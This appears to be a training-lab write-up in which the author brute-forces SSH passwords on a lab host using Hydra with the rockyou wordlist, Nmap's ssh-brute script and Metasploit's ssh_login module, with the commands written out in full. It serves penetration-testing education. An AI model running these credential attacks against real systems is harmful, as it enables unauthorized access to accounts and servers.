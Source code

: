 ```yaml
---
description: >-
  In this lab, you will learn to run a dictionary attack on SSH service using
  Hydra, Nmap script, and Metasploit.
---
```


# Lab - Bruteforce and Password cracking Live

## Lab Environment

In this lab environment, the user is going to get access to a Kali GUI instance. An SSH server can be accessed using the tools installed on Kali on http://demo.ine.local

**Objective:** Perform the following activities:

**1.** Find the password of user "student" using Hydra. Use password dictionary: /usr/share/wordlists/rockyou.txt.gz

**2.** Find the password of user "administrator" use appropriate Nmap script. Use password dictionary: /usr/share/nmap/nselib/data/passwords.lst

**3.** Find the password of user "root" using the ssh\_login Metasploit module. Use userpass dictionary: /usr/share/wordlists/metasploit/root\_userpass.txt

## Tools

The best tools for this lab are:

* Metasploit Framework
* Hydra
* Nmap

## My Solution

### Hydra

The rockyou.txt is originally compressed via gzip so you have to first decompress it with:

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

The command I ran to find the password for student was:

```
hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh -f
```

![](<../../../../.gitbook/assets/image (29).png>)

Here's confirmation that it works

![](<../../../../.gitbook/assets/image (24).png>)

[This](https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux) can help with using Hydra for ssh

### Nmap

We use the ssh-brute Nmap [script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to find the password for user "administrator"

The script takes username and password list files so we have to create a file for the username

I ran the following to do this: `echo "administrator" > users.lst`

Here's the nmap command:

```
nmap -p22 --script=ssh-brute --script-args userdb=users.lst,passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

Now we verify the credentials

![](<../../../../.gitbook/assets/image (17) (1).png>)

### Metasploit

This [article](https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/) by Offensive Security is very straight forward and easy to follow

Launch Metasploit using `msfconsole`

Then type: `use auxiliary/scanner/ssh/ssh_login`

View options with "show options" and set the ones we need as such:

![](<../../../../.gitbook/assets/image (19).png>)

Now type run and enter

![](<../../../../.gitbook/assets/image (18).png>)

As you can see, the password for root is attack and we're given a session that we can interact with using `sessions -i <id number>` and verify that we are indeed root
